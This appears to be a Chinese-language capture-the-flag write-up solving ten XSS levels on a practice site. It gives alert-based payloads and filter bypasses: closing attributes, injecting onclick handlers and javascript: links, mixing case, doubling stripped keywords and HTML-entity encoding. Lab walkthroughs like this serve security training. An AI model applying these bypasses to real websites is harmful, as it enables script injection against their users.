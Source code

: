 # test.ctf8
地址 https://test.ctf8.com 
## level1
通过修改url参数，发现页面变化。查看网页源代码。可能是在这个位置直接插入提交的参数。 
url改为
```
http://test.ctf8.com/level1.php?name=<script>alert("1")</script>
```
![level1](/0secure/test.ctf8/level1.png "level1")

## level2
使用
```
<script>alert("1")</script>
```
没有通过，发现该值被插入到了input标签的value属性中
![level2_1](/0secure/test.ctf8/level2_1.png "level2_1")
尝试使用">闭合标签 
```
"><script>alert("1")</script>
```

## level3
使用
```
"><script>alert("1")</script><"
```
![level3_1](/0secure/test.ctf8/level3_1.png "level3_1")
发现在input标签中，无法使用">闭合value属性。所以想到添加一个属性，例如onclick。同时将"双引号修改成'单引号,然后触发onclick事件。使用//来注释掉后面的>。
```
' onclick=alert("1")//
```
![level3_2](/0secure/test.ctf8/level3_2.png "level3_2")

## level4
使用
```
' onclick=alert("1")//
```
![level4_1](/0secure/test.ctf8/level4_1.png "level4_1")
发现value属性未闭合。猜测，在html源代码中，不管写双引号"还是单引号'，最终查看到的网页源代码都是"。所以将'单引号改为"双引号。
```
" onclick=alert("1")//
```
成功添加onclick属性
![level4_2](/0secure/test.ctf8/level4_2.png "level4_2")

## level5
使用
```
" onclick=alert("1")//
```
![level5_1](/0secure/test.ctf8/level5_1.png "level5_1")
发现想要插入的onclick属性变为o_nclick属性。尝试删除掉o。
![level5_2](/0secure/test.ctf8/level5_2.png "level5_2")
逻辑可能为在输入的o后插入_再放回value中。所以尝试使用不带o的a标签 
```
"><a href="javascript:alert('1')">//
```
![level5_3](/0secure/test.ctf8/level5_3.png "level5_3")
成功插入a标签

## level6 
使用
```
"><a href="javascript:alert('1')">//
```
![level6_1](/0secure/test.ctf8/level6_1.png "level6_1")
发现r字母后面被插入_。删除r验证
```
"><a hef="javascript:alert('1')">//
```
![level6_2](/0secure/test.ctf8/level6_2.png "level6_2")
验证成功。尝试通过将R大写来避免插入
```
"><a hRef="javascript:alert('1')">//
```
![level6_3](/0secure/test.ctf8/level6_3.png "level6_3")
成功插入a标签

## level7
使用
```
"><a hRef="javascript:alert('1')">//
```
发现href属性消失,javascript中的script也消失了。
![level7_1](/0secure/test.ctf8/level7_1.png "level7_1")
猜测可能是href和script被替换成了null，使用hrhrefef，即使href被替换了，还能剩下href。
```
"><a hrhrefef="javascrscriptipt:alert('1')">//
```
![level7_2](/0secure/test.ctf8/level7_2.png "level7_2")

## level8
![level8_1](/0secure/test.ctf8/level8_1.png "level8_1")
先输入1，发现输入内容会被插入在href属性里。
![level8_2](/0secure/test.ctf8/level8_2.png "level8_2")
输入javascrscriptipt:alert('1')，发现在r后加入了_下划线，尝试大写输入R绕过也失败。
![level8_3](/0secure/test.ctf8/level8_3.png "level8_3")
将script转化为html实体，绕过过滤 转换工具https://config.net.cn/tools/HtmlEncode.html

## level9
![level9_1](/0secure/test.ctf8/level9_1.png "level9_1")
输入1，发现源代码中提示链接不合法。尝试http//cn.bing.com 
![level9_2](/0secure/test.ctf8/level9_2.png "level9_2")
链接合法。所以此处应该输入网址格式的内容
尝试http://,通过检验，只要输入内容中包含http://即可
![level9_3](/0secure/test.ctf8/level9_3.png "level9_3")
使用
```
http://"> onclick(alert('1'))//
```
发现onclick被加下划线过滤，使用html实体绕过
![level9_4](/0secure/test.ctf8/level9_4.png "level9_4")
```
http://'> &#x006f;&#x006e;&#x0063;&#x006c;&#x0069;&#x0063;&#x006b;(alert('1'))//
```
使用'和"都无法闭合href属性，尝试使用href中加javascript
```
java&#x0073;&#x0063;&#x0072;&#x0069;&#x0070;&#x0074;:alert("http://")
```
![level9_5](/0secure/test.ctf8/level9_5.png "level9_5")
发现双引号被过滤，将双引号换成单引号，通过

## level10
发现源代码表单中有三个input，尝试通过url增加参数，只有t_sort的value改变
![level10_1](/0secure/test.ctf8/level10_1.png "level10_1")
通过type="text"将该输入框调成可见，同时增加onclick属性，通过
```
http://test.ctf8.com/level10.php?t_sort=" type="text" onclick="alert('1')"
```
![level10_2](/0secure/test.ctf8/level10_2.png "level10_2")